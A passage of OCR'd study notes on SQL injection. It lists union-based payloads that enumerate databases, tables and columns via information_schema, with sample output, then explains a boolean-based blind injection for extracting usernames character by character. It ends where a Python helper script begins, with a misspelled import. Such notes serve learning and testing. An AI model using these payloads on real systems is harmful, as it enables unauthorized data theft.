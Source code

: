     searchUsers.php?id=123141124' union select schema_name from information_schema.schemata-- -
    listDBs
    
    searchUsers.php?id=123141124' union select group_concat(schema_name) from information_schema.schemata-- -
    DBname1,DBname2,DBnameN,...,
    
    searchUsers.php?id=123141124' union select group_concat(table_name) from information_schema.tables where table_schema='DBname'-- -
    DBTable,DBTable,DBTable
    
    searchUsers.php?id=123141124' union select group_concat(column_name) from information_schema.columns where table_schema='DBname' and table_name='tablename'-- -
    columns,columns,columns
    ```
    
    ![[Untitled 47.png]]
    
    ![[Untitled 48.png]]
    
    ---
    
    ### Boolean-based blind SQLi
    
    In the case where there is no clear response from the server, we need to find a workaround, this could acomplished using time or conditionals.
    
      
    
    For example, we can use boolean states to find usernames.
    
    ```JavaScript
    /searchUsers.php?id=9 or (select(select ascii(substring(username,1,1)) from users where id=1)=97)
    ```
    
    > select(substring(username1,1)) returns the first character from the username field  
    >   
    > Using another select with the query above we can equalize the returned value to anything we want  
    
      
    
    In this case, we know that there is a username with the `id=1` and we are trying to find its name.
    
    What we do is to equalize a character converted to ascii to a number, in case that the found character is equal to 97, it means that the character is a minuscule ‘a’.
    
    This will return a 200 OK code response. So we can make use of this return code.
    
    ![[Untitled 49.png]]
    
    ```Python
    #!/usr/bin/python3
    
    import request
    import signal
    import sys
    import time
    import string
    from pwn import *
    